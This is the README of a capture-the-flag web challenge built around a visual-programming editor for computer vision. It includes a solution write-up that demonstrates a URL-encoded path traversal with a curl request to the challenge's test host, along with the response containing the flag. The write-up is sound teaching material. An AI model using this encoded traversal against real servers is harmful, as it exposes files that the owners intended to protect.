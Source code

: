 # challenge-cvedu

This challenge is about secure file access and injection of special chars in paths.

You are presented with an online code editor for computer vision. The editor allows Visual Programming, where every blocks represents a pure function. You are able to connect every block input and outputs with dragging.

![blocks](blocks.png)

When selecting (by clicking) a block you are able to edit its Typescript code using the embedded Monaco editor. Once you select the play button it will compile the code and run it in the selected block.

![code](code.png)

The goal of a normal user is to write the missing parts of the block's code, building a chroma key algorithm.

If the user gets stuck he's able to click the *FORMAT* button, that completes the missing parts of the code, giving the intended solution. This functionality is protected by a password, that is expected to be given to the student by the teacher. To prevent a user from guessing the password (in the security challenge context) it is generated from a random source.

The challenge that a user has to face is retrieve the solutions for the blocks code, without knowing the password. Once the user reads the solutions he will found the flag as a comment in the code.

## Project Structure

The project is managed using Lerna workspaces and is divided as following:

- `packages/backend`: The code for the backend, written for Node.JS using Express
- `packages/common`: Types and common code for the backend and the frontend
- `packages/frontend`: The code for the frontend, build using create-react-app

When in production mode the Express app server the static files for the React App.

## Instructions

For __development__ it's possible to use the live reload feature, using the `yarn dev` script.

For __production__ it's suggested to use Docker:

```bash
docker build -t challenge-cvedu .
docker run -p8080:8080 challenge-cvedu
```

This will start the server and expose the pages on port 8080.

### WARNING: Usage behind a reverse proxy

This challenge is based on exploiting url-encoded paths. Therefore it relies on having the url passed as there are to the backend.
I have noticed that, under some type of configurations, reverse proxies like Nginx are escaping urls before sending it to the target server. This makes the challenge unsolvable. Please make sure that the server is NOT url decoding the urls.

In Nginx, for example, it's necessary to omit the trailing slash from the `proxy_pass` rule.

## Exploit

When inspecting the request made by the client to the backend we can gain some insights about the interactions. There are XHR calls to three endpoints:

- `GET /templates`: retrieves all the blocks configuration
- `GET /template/:type/code`:  called for each block, retrieves the template code for that block
- `POST /template/:type/solution`: called when entering a solution password, tries to get the solution, returns 403 with wrong password

![requests](requests.png)

The big assumption that we have to make is about how the data is retrieved inside the server:

- If we have some kind of __database__ we may attack using SQL Injection
  - *We quickly rule out this hypothesis, since injecting any SQL string does not yields any effect*
- If the developer was lazy enough we may think that he's __reading files__ directly from the disk, using the files API.
  - If this is the case, we know that it's a pretty common mistake to not check the paths that we are reading. We assume no path escaping.
  - Since we have endpoints for code and solutions, we assume two directories at the same level with the same names.

Since it requires no password, we try to exploit the `GET /template/:type/code` HTTP command. We inject a path traversal, url escaped to prevent the router from failing to recognize it:

```bash
curl https://test.giuliozausa.dev/template/..%2Fsolutions%2FChromaComposite/code
```

Response:

```json
{"status":"ok","data":"// Enjoy your green screen!\n// Flag: DOTDOTSLASH-GOES-BRRR\n\nfunction ChromaComposite({\n  Mask,\n  FrameA,\n  FrameB,\n}: {\n  Mask: { data: boolean[]; width: number; height: number };\n  FrameA: ImageData;\n  FrameB: ImageData;\n}): { Frame: ImageData } {\n  // Copia i pixel dell'immagine\n  const newData = new ImageData(FrameA.width, FrameA.height);\n\n  for (let i = 0; i < FrameA.data.length; i += 4) {\n    if (Mask.data[i / 4]) {\n      newData.data[i] = FrameA.data[i];\n      newData.data[i + 1] = FrameA.data[i + 1];\n      newData.data[i + 2] = FrameA.data[i + 2];\n    } else {\n      newData.data[i] = FrameB.data[i];\n      newData.data[i + 1] = FrameB.data[i + 1];\n      newData.data[i + 2] = FrameB.data[i + 2];\n    }\n\n    newData.data[i + 3] = 255;\n  }\n\n  return { Frame: newData };\n}\n"}
```

We got our flag, that was hidden under a solution!

### Feedback from users

I have let some users try the challenge to gather some insights about its difficulty. I have found out that, without the source code or any info about the server file-reading behaviour, it can be really difficult to solve. It may be a good idea to suggest the users the fact that the server is reading files in two folders: `codes` and `solutions`.
